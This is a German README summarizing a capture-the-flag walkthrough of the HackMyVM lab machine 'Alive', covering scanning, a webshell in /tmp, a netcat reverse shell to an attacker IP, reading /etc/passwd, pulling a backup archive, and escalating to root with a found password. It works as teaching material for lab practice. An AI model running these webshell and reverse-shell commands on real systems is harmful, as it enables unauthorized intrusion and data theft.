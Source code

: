# Alive - HackMyVM Lösungsweg

![Alive VM Icon](alive.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Alive".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Alive
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Schwer (Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=alive](https://hackmyvm.eu/machines/machine.php?vm=alive)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Alive_HackMyVM_Hard/](https://alientec1908.github.io/Alive_HackMyVM_Hard/)
*   **Datum des Originalberichts:** 20. September 2024

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `nikto`
*   `curl`
*   `vi`
*   `wget`
*   `python3` (insb. `http.server`)
*   `nc` (netcat)
*   `find`
*   `stty`
*   `sudo`
*   `zip2john` (obwohl nicht erfolgreich)
*   `unzip`
*   Standard Linux-Befehle (`ls`, `cat`, etc.)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Initial Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.128` wurde mittels `arp-scan -l` identifiziert (gefiltert nach "PCS Systemtechnik GmbH").
*   Ein `nmap`-Scan (`nmap -sS -sC -T5 -AO 192.168.2.128 -p-`) ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 8.4p1 Debian 5+deb11u1.
    *   **Port 80/tcp (HTTP):** Apache httpd 2.4.54 ((Debian)). Titel der Seite: "Host alive".

### 2. Web Enumeration (Web-Aufklärung)

*   `gobuster` wurde verwendet, um Verzeichnisse auf `http://192.168.2.128` zu finden.
    *   Gefunden: `/index.php` (Status 200) und `/tmp/` (Status 301, Verzeichnisauflistung aktiv).
*   `nikto` bestätigte den Apache-Server und meldete:
    *   Fehlende Security-Header (`X-Frame-Options`, `X-Content-Type-Options`).
    *   Verzeichnisauflistung für `/tmp/`.
*   Der Inhalt von `index.php` wurde mit `curl` abgerufen und enthielt eine E-Mail-Adresse `admin@alive.hmv`.
*   Der Hostname `alive.hmv` wurde der IP `192.168.2.128` in der `/etc/hosts`-Datei des Angreifers zugeordnet.

### 3. Exploitation (Ausnutzung der Schwachstellen)

*   **Identifizierung und Ausnutzung von `index.phtml`:**
    *   Es wurde eine Datei `index.phtml` (vermutlich manuell erstellt oder basierend auf Hinweisen platziert) auf dem Angreifer-System vorbereitet.
    *   Ein Python HTTP-Server (`python3 -m http.server 8080`) wurde auf dem Angreifer-System gestartet.
    *   Es wird angedeutet, dass der Inhalt von `index.phtml` (oder einer `index.html`) vom Zielserver unter `192.168.2.128` aus dem `/tmp/`-Verzeichnis geladen wurde, indem eine präparierte `index.phtml` Datei dort abgelegt wurde. Der genaue Mechanismus, wie die Datei `index.phtml` auf den Server in das `/tmp/`-Verzeichnis gelangte und ausführbar wurde, ist im Writeup nicht explizit beschrieben, aber das Ergebnis ist eine Webshell.
*   **Remote Code Execution (RCE) via Webshell:**
    *   Über die URL `http://192.168.2.128/tmp/index.phtml?cmd=BEFEHL` konnten Befehle auf dem Server ausgeführt werden.
    *   `cmd=id` ergab `uid=33(www-data)`.
    *   `cmd=cat%20/etc/passwd%20|%20grep%20bash` enthüllte u.a. den Benutzer `alexandra`.
*   **Reverse Shell als `www-data` etabliert:**
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine auf Port `9001` gestartet (`nc -lvnp 9001`).
    *   Über die Webshell wurde eine Reverse Shell zum Listener aufgebaut:
        `http://192.168.2.128/tmp/index.phtml?cmd=nc%20-e%20/bin/bash%20192.168.2.129%209001`
        *(Hinweis: Angreifer-IP ist hier als 192.168.2.129 angegeben)*
    *   Erfolgreiche Verbindung und Shell als Benutzer `www-data`. Die Shell wurde mit `stty raw -echo; fg` stabilisiert.

### 4. Privilege Escalation (Privilegienerweiterung)

*   **Enumeration als `www-data`:**
    *   `sudo -l` fragte nach einem Passwort für `www-data`, das nicht bekannt war.
    *   Die Suche nach SUID-Binaries (`find / -type f -perm -4000 -ls 2>/dev/null`) zeigte keine ungewöhnlichen oder direkt ausnutzbaren Binaries.
    *   Der Zugriff auf `/home/alexandra/user.txt` und `/home/alexandra/.ssh/` wurde verweigert.
*   **Fund im `/opt`-Verzeichnis:**
    *   `ls -la /opt` zeigte `backup.zip` (Eigentümer `www-data`) und `index.html` (Eigentümer `www-data`).
    *   `backup.zip` wurde vom Zielserver auf den Angreifer-Rechner heruntergeladen (mittels Python HTTP-Server auf dem Ziel und `wget` auf dem Angreifer-System).
*   **Analyse von `backup.zip`:**
    *   `zip2john backup.zip > hash` schlug fehl, da die Datei nicht verschlüsselt war.
    *   `unzip backup.zip` extrahierte `digitcode.bak`.
    *   `cat digitcode.bak` enthielt:
        ```
        host: alive.hmv
        location: /var/www/code
        param: digit
        code: 494147203525673
        ```
        Dies scheint ein Hinweis auf einen Parameter (`digit`) und einen Code/Wert zu sein, möglicherweise für eine andere Funktionalität oder einen versteckten Endpunkt. Für die direkte Privilegienerweiterung in diesem Teil des Writeups wurde er jedoch nicht weiterverfolgt.
*   **Passwortfund und Wechsel zu `admin` (Root-Äquivalent):**
    *   Im Writeup wird erwähnt: `The Password for the "administrator" is required : heLL0alI4ns`. Es ist unklar, woher dieses Passwort stammt oder wie es zum "administrator" oder `root` in Beziehung steht, da zuvor kein Benutzer "administrator" explizit genannt wurde.
    *   Anschließend wird der Befehl `su admin` ausgeführt (Passwort `heLL0alI4ns` impliziert) und damit Root-Rechte erlangt. Der Benutzer "admin" ist in diesem Kontext anscheinend der Root-Benutzer oder ein Benutzer mit Root-Privilegien.
        *(Dieser Teil der Privilegienerweiterung ist im Writeup etwas sprunghaft und die Herkunft des Passworts/Benutzers "admin" nicht klar dargelegt.)*

### 5. Flags

*   **User-Flag (`/home/alexandra/user.txt`):**
    ```
    1637c0ee2d19e925bd6394c847a62ed5
    ```
*   **Root-Flag (`/root/root.txt`):**
    ```
    819be2c3422a6121dac7e8b1da21ce32 
    ```
    *(Im Writeup wird auch `0b29729cf5d1a3dbd9e70c0df6cf4a49` im Kontext von `su admin cat root.txt` gezeigt, was auf eine alternative oder vorherige Flag hindeuten könnte.)*


## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Alive" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
